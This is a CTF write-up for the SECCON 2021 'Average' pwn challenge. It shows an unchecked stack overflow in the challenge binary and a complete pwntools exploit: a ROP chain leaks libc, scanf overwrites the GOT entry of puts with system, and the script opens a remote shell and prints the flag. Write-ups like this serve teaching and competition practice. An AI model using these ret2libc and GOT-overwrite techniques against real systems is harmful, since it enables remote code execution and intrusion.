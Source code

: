 ```yaml
---
title: 'Average - SECCON CTF 2021'
permalink: /writeups/seccon2021/average
---
```


> 129
>
> Average is the best representative value!
> `nc average.quals.seccon.jp 1234`
>
> Author: kusano
Tags: _pwn_ _x86-64_ _bof_ _remote-shell_ _rop_ _got-overwrite_

## Analysis

### Checksec

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### File command output

```bash
    ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked
```

So we are given a binary with no PIE and no canary. In this conditions we can think of trying a simple buffer overflow or/with Return from oriented programing. Also, as it is dynamically link, we will need to leak libc base adress in order to call either gadjets or libc functions.

## Finding the vulnerability

```c
int main()
{
    long long n, i;
    long long A[16];
    long long sum, average;

    alarm(60);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    printf("n: ");
    if (scanf("%lld", &n)!=1)
        exit(0);
        
    for (i=0; i<n; i++)
    {
        printf("A[%lld]: ", i);
        if (scanf("%lld", &A[i])!=1)
            exit(0);
        //  prevent integer overflow in summation
        if (A[i]<-123456789LL || 123456789LL<A[i])
        {
            printf("too large\n");
            exit(0);
        }
    }

    sum = 0;
    for (i=0; i<n; i++)
        sum += A[i];
    average = (sum+n/2)/n;
    printf("Average = %lld\n", average);
}
```

As we can see, the for loop runs n times without any array bounds check whatsoever. Furthermore, we provided de n value. That means we can right outside de buffer. We have just found our vulnerability!!!!
However, when we start writing outside the buffer, trying to reach rip, we will overwrite the n value. We need to be carefull with that, since it might cause the loop to end earlier than expected! There's another detail worth mentioning, the program checks if the value written to A[i] is valid (in this case, valid means -123456789 < A[i] < 123456789). To bypass this, we will have to be creative, but we'll get to it latter.
Last but not least, we risk overwriting the loop's i variable with our buffer overflow, thus we need to be carefull with that one as well.

## Exploit

After some trial and error, I was able to conclude that the n value is stored immediately after the buffer (that is A[16]) and the i is stored a little further down, A[19]. Having said that, we just need to watch for those specific writes and we should be good.

```python
#!/usr/bin/env python3
from pwn import *
from binascii import hexlify
from struct import * 
import os
context(arch="amd64", os="linux")
binary_path = "./average"
binary = ELF(binary_path)

SERVER = "average.quals.seccon.jp"
PORT = 1234
local = True 
if(len(sys.argv) > 1 and "-remote" == sys.argv[1]):
    local = False

if local:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    io = process(binary_path,timeout=9999)
else:
    libc = ELF("./libc.so.6")
    io = remote(SERVER, PORT, timeout=9999)
```

This is a standard pwntools header.
Now to leak libc base address, we need to call puts with puts adress as an argument and return to main for a second run. However this time we will know the libc base adress and the exploitation will be a simple ret2libc.

```python
def overflow(exec = 1):
    numbers = [i for i in range(1,101)]
    k = 0
    i = 0
    while(k < n):
        if(i == 16):
            io.sendline(bytes(str(n),"ASCII"))
        elif(i == 19):
            io.sendline(bytes(str(k),"ASCII"))
        else:
            if(k == 21):
                if(exec == 1):
                    io.sendline(bytes(str(0x00000000004013a3),"ASCII")) 
                    io.sendline(bytes(str(binary.got.puts),"ASCII")) 
                    io.sendline(bytes(str(binary.plt.puts),"ASCII")) 
                    io.sendline(bytes(str(binary.sym.main),"ASCII")) 
                    k += 3
                else:
                    k += setup(binary.bss(0x100))
            elif(k == 27 and exec !=1):
                k += setup(binary.got.puts)
            elif(k == 33 and exec != 1):
                io.sendline(bytes(str(0x00000000004013a4),"ASCII"))
                io.sendline(bytes(str(0x00000000004013a3),"ASCII"))
                io.sendline(bytes(str(binary.bss(0x100)),"ASCII"))
                io.sendline(bytes(str(binary.plt.puts),"ASCII"))
                k += 3
            else:
                io.sendline(bytes(str(numbers[k]),"ASCII"))
        k += 1
        i = (i+1) % 20   
```

This my exploit's main function. Since we are on the first run of main, we will look at what happens when variable exec (short for execution) is 1 (its default value). My while loop will run as many times as n (the n value from the binary that I mentioned above), so each iteration writes on buffer's A[k]. I figgured out that writing on A[21] overwrites the rip, and gives us control over the code execution. To correctly call puts with the arguments that we want, we will have to rely on one of the gadjets mentioned bellow.
Note: the variable i is used to account for the loop's i and n overwrites, allowing to continuously write on the buffer.

```python
0x00000000004013a3 : pop rdi ; ret

0x00000000004013a1 : pop rsi ; pop r15 ; ret
```

Since the argument passed to put goes in rdi register, we will use the first gadjet (we will discuss the second one later). Keeping that in mind, we set up the puts call by giving puts its on adress and the adress of main to return for the second run. Having dealt with libc, we move on to the second run of main.

For the second run, we will use a simular logic. Only this time, we will try to call system('/bin/sh) to get our shell. The verification that I mentioned early, will block us from writting directly on the stack using our buffer overflow (as system adress >123456789, thus causing the binary to call exit). Note that in the second run the exec variable will be equal to 2 (to make sure that it won't execute the same code as before).

After thinking for a while, I came to the conclusion that I can use scanf (in the binary corresponds to the symbol __isoc99_scanf), to overwrite the got entry for puts with system address. This way, we can call puts with '/bin/sh' and get out shell. Since, we will need to write /bin/sh in memory and perform the got overwrite, I wrote a function to ease the process.

```python
def setup(memory):
    adress = [0x00000000004013a1,0,1,0x00000000004013a3,0x0000000000402008,0x401070]
    adress[1] = memory
    for i,number in enumerate(adress):
        io.sendline(bytes(str(number),"ASCII"))
    return i  
```

Looking at the disassembled code for the scanf call (I used gdb for this part), we can note that scanf takes two arguments: the format string in rdi and the memory place to store the value that was read in rdi. Setting up rdi is easy, we have done that before. To set up the rsi, we will rely on the second gadjet that ROPgadjet gave us. This function simply sends the adresses to call those gadjets and in the end calls scanf.
Taking a look into my overflow function for the second run, it is worth mentioning that it also writes /bin/sh in the bss section + 0x100 (to give stack room for the system function).
After having everything set up, we call the pop rdi gadjet one last time, to set it to the adress of /bin/sh, and call system. We should have a shell by now!!!
Note: I decided to use the same format string as the binary, not only because that adress can be found easily using gdb, but also, because it reads a long long integer (which is exactly what we need). Finally, every 6 writes on the buffer A, we write the return value of the function that we call, hence my exploit if's are distance by 6.

```python
n = 25
io.sendline(bytes(str(n),"ASCII"))
overflow()
io.recvuntil(b'Average')
io.recvline()
leak = io.recv(6)
libc.address  = u64(leak+ b'\0\0') - libc.sym.puts
log.info(f"libc adress: {hex(libc.address)}")
n = 37
io.sendline(bytes(str(n),"ASCII"))
overflow(2)
io.sendline(str(int('0x' + hexlify(b'//bin/sh'[::-1]).decode(),16)).encode())
io.sendline(bytes(str(libc.sym.system),"ASCII"))
io.recvuntil(b'Average')
io.recvline()
io.sendline(b"cat flag.txt")
io.interactive()
```

This is just the end of my exploit, where we just send the n values for both runs, calculate the libc base adress with the leaked value and get the flag.

```bash
[+] Opening connection to average.quals.seccon.jp on port 1234: Done
[*] libc adress: 0x7fae08385000
[*] Switching to interactive mode
SECCON{M4k3_My_4bi1i7i3s_4v3r4g3_in_7h3_N3x7_Lif3_cpwWz9jpoCmKYBvf}
```

Remember that this is one of many possible solutions.
